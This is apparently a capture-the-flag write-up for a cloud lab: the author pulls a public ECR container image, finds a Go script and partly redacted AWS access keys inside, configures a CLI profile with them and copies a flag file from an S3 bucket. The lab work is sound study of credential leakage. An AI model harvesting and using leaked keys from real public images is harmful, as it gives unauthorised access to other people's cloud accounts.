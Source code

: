 # Challenge 4
---
We are back with another challenge of the week. Our Security team discovered a public ECR Repository during their assessment. They decided to share the information with everyone 😛 and now need your help to get flag.

“We found that a ECR Repository called **challenge-4** which belongs to **securitylabs** registry. called We suspect some serious security lapse. Help us prove this to their team”

You can DM us the flag at [@securitylabs_](http://twitter.com/securitylabs_) to verify it. We might have some surprise for you!

_For more such interesting labs and content register for beta at [https://securitylabs.tech](https://securitylabs.tech/)_

Have fun hacking cloud with SecurityLabs 🙂


---


## Solution

**Find the ECR image**

So you are supposed to be able query ECR public to find images, ie aws ecr-public describe-images --repository-name securitylabs
However this kept giving me errors.
An easier solution is just to go the public ecr gallery and search there https://gallery.ecr.aws/
https://gallery.ecr.aws/securitylabs/challenge-4

**Explore image**

Now we have the image location we can pull it, it'd probably be wise to do this in an isolated VM given the ease of backdooring containers.

```
docker pull public.ecr.aws/securitylabs/challenge-4:latest
# Now to jump in with a shell
docker run -it public.ecr.aws/securitylabs/challenge-4  sh
```

In the root folder is the following script

```
# cat app.go
import "github.com/aws/aws-sdk-go/service/s3"
import "os"
import (
        "github.com/aws/aws-sdk-go/aws/session"
        "github.com/aws/aws-sdk-go/service/s3"
        "github.com/aws/aws-sdk-go/service/s3/s3manager"
        "fmt"
)

func main(){
        bucket := "aws-bucket-sl"
        file := "flag.txt"

        sess, _ := session.NewSession(&aws.Config{
                Region: aws.String("us-west-2")},
        )

        downloader := s3manager.NewDownloader(sess)

        file, err := os.Create("op.txt")
        numBytes, err := downloader.Download(file,
            &s3.GetObjectInput{
                Bucket: aws.String(bucket),
                Key:    aws.String(item),
        })

        fmt.Println("Downloaded", file.Name(), numBytes, "bytes")
}
```

We also find AWS creds
```
# cat *
[default]
region = us-east-2
output = json
[default]
aws_access_key_id = AKIA<redacted>NT
aws_secret_access_key = dMSY6<redacted>Zm1
#
```
Configure and get the flag

```
aws configure --profile cloudchall set aws_secret_access_key dMSY6<redacted>Zm1
aws configure --profile cloudchall set aws_access_key_id AKIA<redacted>NT
aws configure --profile cloudchall set region us-east-2

aws sts get-caller-identity --profile cloudchall

{

 "UserId": "AIDAYQDT3AH7QT2W4JAIM",

 "Account": "584358494719",

 "Arn": "arn:aws:iam::584358494719:user/challenge-4"

}

aws s3 cp s3://aws-bucket-sl/flag.txt . --region us-west-2 --profile cloudchall

cat flag.txt
```
